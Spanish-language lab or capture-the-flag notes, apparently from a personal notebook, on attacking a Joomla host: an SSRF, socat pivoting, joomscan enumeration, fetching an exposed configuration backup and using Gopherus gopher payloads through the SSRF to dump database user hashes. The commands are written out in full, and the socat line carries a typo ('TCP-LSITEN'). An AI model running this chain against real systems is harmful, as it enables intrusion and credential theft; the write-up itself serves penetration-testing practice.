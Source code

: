 ![[Pasted image 20240421194843.png]]
Nos da una ruta y una pista .bak
## Tenemos en la ruta un SSRF
![[Pasted image 20240421195314.png]]
(Podríamos cargar un php desde una web atacante para que lo ejecute, pero en esté caso no funciona)

## Socat
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
Utilizamos socat para que todo el trafico que vaya desde la 'ip2' a 'ip1' se redirija a 'ipa'

```
scp socat root@<ip1>:/tmp/socat
```
```
./socat TCP-LSITEN:443, fork TCP:<ipa>:80
```

## Joomla Enumeration - Joomscan
https://github.com/OWASP/joomscan
```
proxychains perl joomscan.pl -u http://<ip2>/joomla/ 2>/dev/null 
```
![[Pasted image 20240421200429.png]]
Podemos ver la interfaz de administrador expuesta y un fichero de configuración expuesto.

1. Descargamos el fichero de configuración
```
proxychains curl -s -X GET http://<ip2>/joomla/configuration.php.bak
```
![[Pasted image 20240421200714.png]]
Podemos identificar como:
- La base de datos se llama Joomla de mysql
- El usuario es goblin
- No tiene contraseña
## Gopher + SSRF
Como tenemos un SSRF y la bbdd sin contraseña podemos utilizar Gopherus
https://github.com/tarunkant/Gopherus
```
gopherus --exploit mysql
```
**![[Pasted image 20240421201141.png]]
Esto genera una petición que deseemos a través de Gopher para poder lanzarla a la BBDD por el SSRF
![[Pasted image 20240421201339.png]]
Insertamos con está técnica las siguientes peticiones a la BBDD
- SHOW databases;
- USE joomla; show tables;
- USE joomla; describe joomla_users;
- USE joomla; select name,username,email,password from joomla_users;   
La contraseña que obtenemos esta cifrada, pero no conseguimos romperla con john
